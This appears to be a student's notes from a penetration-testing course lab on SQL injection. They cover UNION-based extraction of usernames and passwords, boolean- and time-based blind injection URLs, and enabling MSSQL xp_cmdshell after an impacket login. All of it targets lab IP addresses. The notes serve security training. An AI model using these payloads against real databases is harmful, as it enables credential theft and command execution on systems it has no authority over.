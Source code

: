 #### Retrieving Current Database Tables and Columns
```
' UNION SELECT null, username, password, description, null FROM users -- //
```
![[Pasted image 20230521095223.png]]

### 10.2.3 Blind SQL Injections

#### Testing for Blind SQLi
![[Pasted image 20230521115630.png]]
Closely reviewing the URL, we'll notice that the application takes a _user_ parameter as input, defaulting to _offsec_ since this is our current logged-in user.  The application then queries the user's record, returning the _Username_, _Password Hash_, and _Description_ values.

#### Testing for boolean-based SQLi
```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```
Since _1=1_ will always be TRUE, the application will return the values only if the user is present in the database. Also, the double slashes were necessary to prevent space from being deleted off the end.

#### Testing for time-based SQLi
```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
We appended an IF condition that will always be true inside the statement itself, but will return false if the user is non-existent. We know the user _offsec_ is active, so we if paste the above URL payload in our Kali VM's browser, we'll notice that the application hangs for about three seconds.

## 10.3 Manual and Automated Code Execution

### 10.3.1 Manual Code Execution

#### Enabling xp_cmdshell feature
```Shell
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
Login to MSSQL

```MSSQL
EXECUTE sp_configure 'show advanced options', 1;
```
We can enable _show advanced options_ by setting its value to 1

```MSSQL
RECONFIGURE;
```
Changes are applied by running RECONFIGURE

```MSSQL
EXECUTE sp_configure 'xp_cmdshell', 1;
```
xp_cmdshell enabled command
